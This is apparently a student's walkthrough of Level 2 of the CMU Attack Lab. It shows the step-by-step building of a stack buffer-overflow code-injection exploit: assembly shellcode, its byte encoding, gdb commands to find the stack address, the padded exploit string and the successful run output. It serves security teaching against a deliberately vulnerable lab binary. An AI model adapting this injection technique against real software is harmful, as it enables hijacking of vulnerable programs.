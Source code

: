 # 4.2 Level 2

Phase 2 involves injecting a small amount of code as part of your exploit string.
Within the file ctarget there is code for a function touch2 having the following C representation:

```C
void touch2(unsigned val)
{
vlevel = 2; /* Part of validation protocol */
if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
} else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
 }
    exit(0);
 }
```

Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,
however, you must make it appear to touch2 as if you have passed your cookie as its argument.

Some Advice:
- You will want to position a byte representation of the address of your injected code in such a way that ret instruction at the end of the code for getbuf will transfer control to it.
- Recall that the first argument to a function is passed in register %rdi.
- Your injected code should set the register to your cookie, and then use a ret instruction to transfer
control to the first instruction in touch2.
- Do not attempt to use jmp or call instructions in your exploit code. The encodings of destination
addresses for these instructions are difficult to formulate. Use ret instructions for all transfers of
control, even when you are not returning from a call.
- See the discussion in Appendix B on how to use tools to generate the byte-level representations of
instruction sequences.

# Idea
3.10.3 : the program is fed with a string that contains the byte encoding of some executable code, called the exploit code, 
plus some extra bytes that overwrite the return address with a pointer to the exploit code. 
The effect of executing the ret instruction is then to jump to the exploit code.

the exploit code is the bytes sequence machine code(hex format) start from address
68 ef cd ab 00 .... (pushq  $0xabcdef)

the program will read these bytes as sequence instructions


# Solution
1. build exploit2.s
```assembly
movq  $0x59b997fa, %rdi  # set the register %rdi (first argument) to your cookie 值 0x59b997fa
pushq 0x4017ec           # push the address of the touch2 to stack to set return address 
ret                      # when return, go to the address of the touch2 by pop from the stack
```
2. then convert exploit2.s to hex-formatted byte sequencenc then to bytes.
```shell
# assemble the assemble file(text) to object file(binary) exploit2.o
unix> gcc -c exploit2.s
# disassemble the object file(binary) to 
unix> objdump -d exploit2.o > exploit2.d

# exploit2.o:     file format elf64-x86-64

# Disassembly of section .text:

# 0000000000000000 <.text>:
#    0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
#    7:	68 ec 17 40 00       	pushq  $0x4017ec
#    c:	c3                   	retq   

# get hex-formatted byte sequencenc as instruction sequence from disassemble file exploit2.d
（低地址）48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 （高地址）
# This string can then be passed through HEX2RAW to generate an input string for the target programs..
# Alternatively, you can edit example.d to omit extraneous values and to contain C-style comments for readability, 
# yielding:
48 c7 c7 fa 97 b9 59 	/* mov    $0x59b997fa,%rdi */
68 ec 17 40 00       	/* pushq  $0x4017ec */
c3                   	/* retq   */

```

3. get the rsp register address when return getbuf

```shell
gdb ctarget
```

```gdb
(gdb) b getbuf
(gdb) run -q  <raw2.txt
(gdb) disas
(gdb) n
(gdb) p $rsp 
$1 = (void *) 0x5561dc78
(gdb) info r rsp
rsp            0x5561dc78          0x5561dc78
```

0x5561dc78 to little endian
low address:  78 dc 61 55


4. add the exploit2_.d with the rsp address to exploit2_.d
(低地址)
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00                  	
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 (高地址)


getbuf stack frame should be:
00 00 00 55 61 dc 78    -> rsp 地址       
+-----------------------------+ <-- 高地址（栈底方向）
00 00 00 00 00 00 00 00                  	
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 c3 00 40 17 ec
68 59 b9 97 fa c7 c7 48
+-----------------------------+ <-- 低地址 当前栈顶（%rsp 指向 buf 起始地址）


5. convert exploit2_.d to raw format
```shell
cat exploit2_.d | ./hex2raw > raw2.txt
```


##  Run progrom with inject assemble code(exploit code) 
   
```shell
./ctarget -q < raw2.txt

Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 


```

## GDB
callq getbuf function:
- inject assemble code(exploit code) in memory
- overwrite the return address on stack to the address of the start of exploit code 

ret instruction in getbuf:
- pop the return address from the stack
- set %rip to the address of the start of exploit code
- jump to the start of the exploit code

execute the exploit code
- set the register %rdi (first argument) to your cookie
- push the return address of touch2 to the stack

ret instruction in exploit code
use a ret instruction to transfer control to the first instruction in touch2
- pop the return address of touch2 from the stack
- set %rip to the address of the start of touch2
- jump to the start of touch2
  









# FAQs

1. when the program is fed with a string that contains the byte encoding of some executable code, how can we get the address for this exccutable code?

by set the return address to register rsp address

2. when overwrite the return address of getbuf function to register rsp address, the program will return to rsp address, but why then the prograom will execute the exploit code by buffer overflow?

- overwrite the return address of getbuf function to register rsp address
- ret in getbuf return to rsp address
- from rsp address read exploit code instructions( bytes )

